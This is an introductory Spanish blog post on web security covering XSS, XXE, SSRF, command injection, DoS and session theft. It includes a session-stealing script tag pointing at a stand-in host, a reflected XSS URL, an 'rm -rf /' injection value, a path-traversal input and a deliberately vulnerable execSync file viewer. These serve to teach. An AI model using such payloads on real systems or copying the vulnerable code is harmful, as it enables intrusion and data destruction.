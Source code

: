 ```yaml
---
title: "Seguridad en la web"
description: La seguridad web es la práctica de implementar medidas para proteger un sitio web haciendolo más díficil de vulnerar.
date: 2021-04-15
cover: https://res.cloudinary.com/marcomadera/image/upload/v1618515494/Blog/seguridad-web/security_2_prgizu.png
author: Marco Madera
tags:
  - Seguridad
  - Web
---
```


![Alerta mimic site a la derecha](https://res.cloudinary.com/marcomadera/image/upload/q_auto,f_auto,c_scale,h_271,w_319/v1618256076/Blog/seguridad-web/Ingenier%C3%ADa_social_yav5tv.png)

Te llega un correo electrónico que parece proceder de tu banco u otro servicio popular de internet como Google. Te solicita que confirmes información sensible sobre tu cuenta. El correo electrónico parece legítimo, ninguna señal de alerta del servicio de que el correo pueda ser peligroso o spam. El link parece muy realista tiene HTTPS, entonces das clic al link para saber más. Entras a la página, pero no carga porque te interrumpe una alerta del sitio y te das cuenta de que pudiste ser víctima de phishing.

## ¿Qué es la seguridad Web?

La seguridad web es la práctica de implementar medidas para proteger un sitio web haciéndolo más difícil de vulnerar. Es necesaria para proteger un sitio web contra el robo de datos y mantener una reputación con tus usuarios.

Existen muchas razones para que tu sitio web sea vulnerable, de las cuales vamos a poner unas cuantas sobre la mesa.

## Manejo de datos

La validación de datos es el paso que verifica las entradas de usuario. En este paso se asegura que los datos sean los requeridos para que puedan ser procesados correctamente y se ingresen en una base de datos.

Si no se hace correctamente este paso se pueden tener datos corruptos. Por ejemplo en tu lista de canciones favoritas de Spotify puede que tengas datos nulos o tener un usuario de Twitter sin nombre de usuario como es el siguiente caso.

<tweet id="1379691085514047490"></tweet>

Un mal manejo de datos es una vulnerabilidad potencial. Enviar datos que no son necesarios al *frontend* puede ser un error por ejemplo si tienes un examen con la siguiente estructura.

```json
{
  test: [
    {
      question: "¿Qué url es más segura?",
      anwers: [
        {
          text: "https://googIe.com",
          correct: true,
        },
        {
          text: "http://www.google.com",
          correct: false,
        },
      ]
    },
  ],
}
```

Estos datos en el lado del cliente (*frontend*) pueden ser expuestos para revelar las respuestas correctas. Un mejor manejo podría ser que cada vez el usuario responda una pregunta se haga una petición al servidor para saber si es acertada la respuesta del usuario y actuar conforme al resultado. Similar si fueran números de tarjetas de crédito. Puede que no sea necesario enviar el número completo sino los últimos 4 dígitos si el usuario decide revelarlo o como sea conveniente.

## Cross-site scripting (XSS)

Tal vez te suene si has visto una alerta en algunos sitios web en la consola.

![Alerta xss](https://res.cloudinary.com/marcomadera/image/upload/q_auto,f_auto,c_scale,h_227,w_705/v1618249299/Blog/seguridad-web/self-xss_axzj76.png)

Esta es una vulnerabilidad de XSS y ocurre cuando se inyecta código en el cliente. Existe dos tipos: persistente y no persistente.

Imagina que la sección de comentarios de este post aceptara etiquetas HTML como la de `<script>`. Se pudiera comentar algo como lo siguiente: `<script src="http://sitioweb/robarsesiones.js">`. Entonces el script se ejecutará cada vez que alguien abra el post. Este es un tipo de ataque persistente porque está inyectado de manera permanente en el sitio web.

Un ejemplo no persistente sería si al tener un buscador no validar la query, permitir que la siguiente URL `https://marcomadera.com/search?q=<script%20type='application/javascript'>alert('xss');</script>` ejecute el código.

El siguiente ejemplo de crear un tweet que se hace retweet cada vez que aparece en pantalla, sería persistente en cuanto aparezca en el *feed* de una persona haría retweet por si solo.

<youtube id="zv0kZKC6GAM"></youtube>

## XML External Entity (XXE)

Un ataque de entidades externas es el tipo de ataque que abusa del procesador de xml.

> Este ataque puede conducir a la divulgación de datos confidenciales, denegación de servicio, falsificación de solicitudes del lado del servidor, escaneo de puertos desde la perspectiva de la máquina donde se encuentra el analizador y otros impactos del sistema. - [Wikipedia](https://en.wikipedia.org/wiki/XML_external_entity_attack)

En el sitio *secrets of app security* hay un ejemplo claro de un ataque con saml para interceptar solicitudes y remplazarla con tu código [Ataque XXE](https://secretsofappsecurity.blogspot.com/2017/01/saml-security-xml-external-entity-attack.html).

Puede que recuerdes el mensaje del punto negro de WhatsApp y iMessage. Este es un ataque de este tipo que tenía oculto múltiples entidades `&lrm;` que cambian la dirección del texto y que el procesador de xml no podía soportar. Otro ataque similar a este es el llamado [Billion laughs attack](https://en.wikipedia.org/wiki/Billion_laughs_attack) que usa entidades `&lol;`.

<tweet id="994230605859651584" caption="El mensaje contenía multiples entidades de dirección del texto &lrm, que sobrecargaban la memoría y hacía que la app dejará de responder" ></tweet>

## Server-side request forgery (SSRF)

En este tipo de ataque el atacador abusa de la funcionalidad del servidor para utilizar los recursos internos de este.

En una situación normal el *frontend* de una tienda puede hacer llamadas al servidor para saber si un producto está disponible `http://storeapi.api/product/check`, el atacante hace peticiones al servidor modificando ese *endpoint*, por ejemplo al mismo `http://localhost/admin` abusando de la confianza.

<videogif title="Server Request" src="https://res.cloudinary.com/marcomadera/video/upload/v1618513408/Blog/seguridad-web/server_clic_twfhas.mp4"></videogif>

## Inyección de comandos

Un ataque de inyección de comandos puede ocurrir porque el servidor no valida el input del usuario antes de usarlo en la línea de comandos.

El siguiente ejemplo es un lector de archivos vulnerable que devuelve el contenido del archivo, el usuario puede insertar algo como `"filename.pdf rm -rf /"` y borrar el contenido del servidor entero o dirigirse a una ruta `"../passwords"` provocando un ataque transversal de directorio.

```javascript
app.get('/viewer', (req, res) => {
  const { filename } = req.query;
  try {
    const stdout = childProcess.execSync('cat folder/' + filename);
    res.send(stdout.toString());
  } catch (err) {
    res.send(err.toString());
  }
});
```

## Ataque de denegación de servicio (DoS)

El objetivo de este ataque es la sobrecarga de los recursos del sistema para que sea inaccesible a los usuarios. La manera en que funciona es que satura los puertos con más datos de los que puede soportar, entonces al no poder con tantas solicitudes deniega el acceso a los demás usuarios.

Estos ataques son comunes por su facilidad de explotar. Existen servicios como Google Cloud Armor y CloudFlare para proteger el sitio web.

## Robo de sesión

Esta explotación es para un obtener acceso no autorizado a información o servicios regularmente teniendo acceso a las cookies y robándolas para así autenticarse.

<youtube id="UR_i5XSAKrg" ></tweet>

## Filtración de datos

Este mes se puso a disposición para descargar datos de más de 500 millones de usuarios de Facebook, los datos se obtuvieron explotando una vulnerabilidad.

La legislación mexicana obliga a las empresas que tratan con datos personales, a notificar vulneraciones de los datos de los titulares.

> Las vulneraciones de seguridad ocurridas en cualquier fase del tratamiento que afecten de forma significativa los derechos patrimoniales o morales de los titulares, serán informadas de forma inmediata por el responsable al titular, a fin de que este último pueda tomar las medidas correspondientes a la defensa de sus derechos - [Artículo 20 - Ley federal de protección de datos personales en posesión de los particulares](http://www.diputados.gob.mx/LeyesBiblio/pdf/LFPDPPP.pdf)

Así como en esta vulnerabilidad mis datos se han visto comprometidos en otras 6 empresas como Bookmate, Nitro, Wattpad y YouNow. De ninguna he tenido ningún aviso para tomar alguna precaución. Por suerte existen páginas como [haveibeenpwned](https://haveibeenpwned.com/) donde te puedes enterar si has sido víctima de estas vulneraciones.

Otra filtración reciente fue sobre el funcionamiento del navegador de Brave en modo privado con Tor. El funcionamiento es que oculta tu identidad al navegar, pero el navegador enviaba las direcciones que visitabas al proveedor DNS en lugar de enviarlo a los servidores de Tor.

<tweet id="1362737949872431108" ></tweet>

## Programas de recompensas

Algunas empresas tienen programas de recompensas para quienes encuentren vulnerabilidades en sus servicios.

- [Microsoft](https://www.microsoft.com/en-us/msrc/bounty-microsoft-identity?rtc=1)
- [Facebook](https://www.facebook.com/whitehat)
- [Google](https://www.google.com/about/appsecurity/reward-program/)

<tweet id="1366767274720329729" ></tweet>

## Conclusión

Los riesgos en la seguridad web se pueden presentar en diferentes formas. Estos cambian rápidamente y se requiere revisar continuamente. Esta es una práctica continua durante todo el proceso donde se deben de mantener buenas prácticas de seguridad, actualizar librerias, analizar cómo mejorar los canales de desarrollo automatizando la seguridad para que no retrase el proyecto en desarrollo.
